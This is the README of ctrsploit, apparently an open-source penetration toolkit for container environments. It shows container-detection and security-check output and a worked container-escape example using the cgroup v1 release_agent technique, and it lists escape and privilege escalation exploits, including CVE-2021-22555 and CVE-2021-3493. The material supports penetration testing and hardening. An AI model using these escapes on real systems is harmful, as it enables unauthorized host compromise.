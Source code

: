 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

ctrsploit [kənˈteɪnər splɔɪt]

## Why ctrsploit
see [here](https://github.com/ctrsploit/ctrsploit/discussions/11)

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

where

```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### check security
Just execute `ctrsploit checksec` or standalone binary file `checksec` in the container.

```
[root@ctr ~]# /checksec_linux_amd64 
===========Seccomp=========
kernel supported: ✔
seccomp enabled in current container: ✘

===========Apparmor=========
Kernel Supported: ✘
Container Enabled: ✘

===========Cgroups=========
is cgroupv1: ✔
is cgroupv2: ✘

------sub systems-------
["perf_event" "memory" "net_cls" "cpuset" "blkio" "hugetlb" "files" "cpu" "cpuacct" "pids" "rdma" "freezer" "devices" "net_prio"]

--------top level subsystem----------
["rdma"
```

## Details

### env

| command | alias | description |
| --- | --- | --- |
| [where](./env/where) | w | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver) | g | detect graphdriver type and extend information |
| [cgroups](./env/cgroups) | c | gather cgroup information |
| [capability](./env/capability) | cap | show the capability of pid 1 and current process |
| [seccomp](./env/seccomp) | s | show the seccomp info |
| [apparmor](./env/apparmor) | a | show the apparmor info |

### exploit

| exploit | alias | description |
| --- | --- | --- |
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent) | ra | escape tech by using the notify_on_release of cgroup v1 |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3 | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04) | 22555 | escape tech by using the CVE-2021-22555 (ubuntu18.04) |

### helper
| helper | alias | description |
| --- | --- | --- |
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS Local Privesc |

### checksec
Just execute `ctrsploit checksec` or standalone binary file `checksec`.